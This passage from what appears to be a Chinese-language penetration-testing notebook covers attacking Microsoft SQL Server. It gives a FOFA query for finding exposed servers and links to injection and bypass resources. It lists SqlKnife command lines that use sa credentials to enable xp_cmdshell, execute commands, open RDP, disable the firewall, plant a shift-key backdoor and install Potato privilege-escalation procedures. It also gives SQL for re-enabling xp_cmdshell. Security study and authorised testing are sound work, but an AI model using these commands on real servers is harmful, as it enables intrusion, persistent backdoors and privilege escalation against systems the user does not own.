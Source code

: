     get aaa         # 读这个值
    ```

---

## MSSQL

> fofa : app="Microsoft-SQL-Server"

**注入**
- [MSSQL数据库注入笔记](../Web安全/Web_Generic/SQLi.md#MSSQL)

**教程**
- [aleenzz/MSSQL_SQL_BYPASS_WIKI](https://github.com/aleenzz/MSSQL_SQL_BYPASS_WIKI)

**相关文章**
- [从攻击MS SQL Server到获得系统访问权限](https://www.freebuf.com/articles/database/22997.html)

**相关工具**
- [0x727/SqlKnife_0x727](https://github.com/0x727/SqlKnife_0x727) - 适合在命令行中使用的轻巧的SQL Server数据库安全检测工具
    ```
    SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --xpcmd --fix	            # 启用xp_cmdshell
    SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --xpcmd -c whoami         # 使用xp_cmdshell执行命令
    SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --xpcmd --remove          # 禁用xp_cmdshell
    SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --oacreate --fix	        # 恢复Ole Automation Procedures
    SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --oacreate -c calc.exe	# Ole Automation Procedures执行程序
    SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --openrdp	                # 开启RDP
    SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --disfw	                # 关闭防火墙
    SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --shift	                # 劫持shift键
    SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --dbup --fix --3	        # 安装.net3.5的甜土豆提权存储过程，如果安装.net4.0的话就是--4
    SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --dbup -c whoami	        # 利用甜土豆执行命令
    SqlKnife.exe -H 192.168.49.143 -u sa -p admin@123 --dbup2 --3 --fix	                # 安装.net3.5的EfsPotato提权存储过程，如果安装.net4.0的话就是--4
    SqlKnife.exe -H 192.168.49.143 -u sa -p admin@123 --dbup2 -c whoami	                # 使用EfsPotato执行命令
    ```

### MSSQL提权

**SA 提权**

1. 判断扩展存储是否存在:
    ```
    select count(*) from master.dbo.sysobjects where xtype = 'x' AND name= 'xp_cmdshell'
    select count(*) from master.dbo.sysobjects where name='xp_regread'
    恢复:
    exec sp_dropextendedproc 'xp_cmdshell'
    exec sp_dropextendedproc xp_cmdshell,'xplog70.dll'
    EXEC sp_configure 'show advanced options',1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell',1;RECONFIGURE;(SQL2005)
    ```
